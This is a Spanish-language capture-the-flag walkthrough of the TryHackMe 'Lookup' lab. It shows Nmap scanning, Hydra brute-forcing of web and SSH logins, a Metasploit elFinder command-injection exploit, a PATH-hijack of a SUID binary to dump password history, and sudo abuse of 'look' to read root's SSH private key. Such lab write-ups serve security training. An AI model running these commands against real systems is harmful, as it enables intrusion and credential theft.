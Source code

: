 # Walkthrough - Máquina Lookup (TryHackMe)

## Configuracion del host'
Primero  entraremos a etc/hosts para configurar la ip junto con su dominio
![](0.png)
##  Inspección de la Red con Nmap

Comenzamos con un escaneo de la red para identificar los servicios activos en el dominio:

```bash
nmap -sS -sV 10.10.220.167 -oN resultado.txt
```

### Resultado de Nmap

Se identificaron dos servicios activos:
```
# Nmap 7.94SVN scan initiated Fri Feb 21 16:39:30 2025 as: /usr/lib/nmap/nmap --privileged -A -oN resultado.txt lookup.thm
Nmap scan report for lookup.thm (10.10.220.167)
Host is up (0.17s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 44:5f:26:67:4b:4a:91:9b:59:7a:95:59:c8:4c:2e:04 (RSA)
|   256 0a:4b:b9:b1:77:d2:48:79:fc:2f:8a:3d:64:3a:ad:94 (ECDSA)
|_  256 d3:3b:97:ea:54:bc:41:4d:03:39:f6:8f:ad:b6:a0:fb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Login Page
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
```

- **SSH (puerto 22)**
- **HTTP (puerto 80)**

---

## Acceso a la Página Web

Accedemos al servicio HTTP mediante el navegador y encontramos la siguiente pantalla de **login**:

![](extra.png)
Intentamos probar credenciales comunes y obtenemos un mensaje de **usuario o contraseña incorrecta**:
![](1.png)
Al analizar más a fondo con **Burp Suite**, encontramos que cuando se introduce un usuario válido, la respuesta cambia indicando **"Contraseña incorrecta"**, lo que permite la identificación de usuarios mediante fuerza bruta.
![](2.png)

---

## Ataque de Fuerza Bruta con Hydra

Configuramos **Hydra** para identificar usuarios válidos:

```bash
hydra -L usuarios.txt -p abc lookup.thm http-post-form "/login.php:username=^USER^&password=abc:F=Wrong password"
```

**Usuarios identificados:**

- `admin`
- `jose`

![](4.png)
Ahora, buscamos contraseñas para estos usuarios. Solo encontramos la contraseña de `jose`:
![](5.png)

---
## Explotación del Servicio elFinder

Nos autenticamos y accedemos al servicio **elFinder**. Tras inspeccionar su versión (`2.1.47`), encontramos que es vulnerable.

![](extra%202.png)
Utilizamos **Metasploit** para explotarlo:

```bash
msf6 > use exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection
msf6 exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > set RHOSTS lookup.thm
msf6 exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > set LHOST 10.6.17.22
msf6 exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > exploit
```

![](6.png)

**Acceso conseguido como `www-data` en una shell restringida**:

![](7.png)

---

## Escalada de Privilegios - Parte 1

Revisamos `/etc/passwd` y encontramos que el usuario `think` tiene permisos interesantes:

![](8.png)

Buscamos archivos **SUID** para identificar posibles vías de escalamiento:

```bash
find / -perm -4000 -type f 2>/dev/null
```
![](9.png)
**Ejecutable identificado:** `/usr/sbin/pwm`

Al analizar su funcionamiento, descubrimos que permite recuperar **el historial de contraseñas** de usuarios.

![](10.png)

---

##  Obtención de la Contraseña de `think`

Creamos un archivo en `/tmp/id` y lo configuramos para obtener la contraseña de `think`:

```bash
echo "#!/bin/bash" > /tmp/id
echo "uid=33(think) gid=33(think) groups=(think)" >> /tmp/id
chmod +x /tmp/id
export PATH=/tmp:$PATH
/usr/sbin/pwm
```

![](11.png)

 **Historial de contraseñas recuperado:**
Creamos un diccionario con estas contraseñas y usamos **Hydra** para atacar SSH:

```bash
hydra -l think -P pass ssh://lookup.thm
```

![](12.png)
**Credenciales obtenidas:**

- **Usuario:** `think`
- **Contraseña:** `josemario.AKA(think)`

Nos autenticamos en SSH:

```bash
ssh think@lookup.thm
```

 **Flag de usuario obtenida:**

```bash
cat user.txt
```


---

##  Escalada de Privilegios - Parte 2

Revisamos los permisos `sudo` del usuario `think`:

```bash
sudo -l
```

**Permiso especial detectado:**

```bash
User think may run the following commands on lookup:
    (ALL) /usr/bin/look
```

![](14.png)

Usamos `look` para ver si hay una clave privada de SSH:

```bash
sudo /usr/bin/look '' /root/.ssh/id_rsa
```

 **Clave privada obtenida:**

![](15.png)

La configuramos con permisos adecuados y accedemos como `root`:

```bash
chmod 600 id_rsa
ssh -i id_rsa root@lookup.thm
```

 **Última flag obtenida:**

```bash
cat /root/root.txt
```


---

## **Conclusión**

- **Identificamos** servicios vulnerables con **Nmap**.
- **Descubrimos** usuarios válidos mediante **fuerza bruta con Hydra**.
- **Explotamos** el servicio **elFinder** con **Metasploit**.
- **Escalamos privilegios** explotando un **binario SUID (`pwm`)**.
- **Obtenemos acceso root** usando **sudo y el comando `look`**.

---
### 🏴‍☠️ Frase Inspiradora
> **"Si le das a un hacker un juguete nuevo, lo primero que hará es desmontarlo para ver cómo funciona."** – _Jamie Zawinski_